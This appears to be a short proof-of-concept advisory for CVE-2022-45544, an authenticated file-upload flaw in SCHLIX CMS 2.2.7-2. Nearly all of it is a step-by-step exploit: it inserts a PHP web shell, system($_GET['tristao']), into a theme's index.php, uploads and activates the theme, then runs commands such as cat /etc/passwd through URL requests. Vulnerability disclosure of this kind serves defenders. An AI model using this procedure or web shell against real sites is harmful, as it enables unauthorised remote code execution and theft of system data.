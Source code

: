 # CVE-2022-45544
## SCHLIX CMS 2.2.7-2 arbitrary File Upload

#Title:Schlix CMS 2.2.7-2 | Arbitrary File Upload Remote following Code Execution (Authenticated)<br>
#Date: 2022-11-09<br>
#Author: Francisco Marinho<br>
#Vendor Homepage: https://www.schlix.com/<br>
#Software link:https://www.schlix.com/downloads/schlix-cms/schlix-cms-v2.2.7-2.zip<br>
#Version: 2.2.7-2<br>
#Tested on: Linux<br>
<br>
# =========================POC=========================<br>
<br>

1 - Login with your account<br>
2 - Acess the directory in url http://example.com/admin/app/core.thememanager <br>
3 - Download theme Superhero in https://www.schlix.com/extensions.releases/action/download/filename/theme_superhero-1.1.zip<br>
4 - Unzip theme_superhero-1.1.zip<br>
5 - Edit file in path superhero/themes/superhero/index.php, adding "system($_GET['tristao']);" on line three.<br>
6 - Zip theme_superhero-1.1.zip<br>
7 - Click in "INSTALL A PACKAGE"<br>
8 - Upload theme_superhero-1.1.zip<br>
9 - Active theme superhero<br>
10 - Acess homepage index.php<br>
<br>
## Examples:

cat /etc/passwd<br>

http://example.com/index.php?tristao=cat%20%20/etc/passwd<br>

ls -la <br>

http://example.com/index.php?tristao=ls%20%20-la<br>

Procedure video<br>
https://www.youtube.com/watch?v=_0X6AzXmhrU&t=36s
